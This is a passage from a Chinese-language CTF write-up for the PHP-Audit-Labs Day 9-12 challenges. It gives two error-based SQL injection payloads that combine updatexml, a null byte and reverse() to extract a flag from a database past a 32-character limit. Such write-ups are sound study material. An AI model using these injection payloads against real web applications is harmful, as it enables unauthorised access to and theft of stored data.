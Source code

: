 ![4](CTF%20总结/PHP-Audit-Labs/PHP-Audit-Labs题解/Day9-12/files/2.png)

我们使用第一个 **payload** 如下：

```bash
msg=1%00' and updatexml(1,concat(0x7e,(select * from flag),0x7e),1))#&limit_words[\0\]=
```

![5](CTF%20总结/PHP-Audit-Labs/PHP-Audit-Labs题解/Day9-12/files/4.png)

这样我们便注出了flag，但是这里的flag并不齐全，因为 **updatexml报错** 最多只能显示 **32位** ，所以下面我使用 **reverse** 函数注出尾部数据。当然方法不止这一种，大家自己举一反三。

```bash
msg=1%00' and updatexml(1,concat(0x7e,(select reverse(flag) from flag),0x7e),1))#&limit_words[\0\]=
```

![6](CTF%20总结/PHP-Audit-Labs/PHP-Audit-Labs题解/Day9-12/files/5.png)
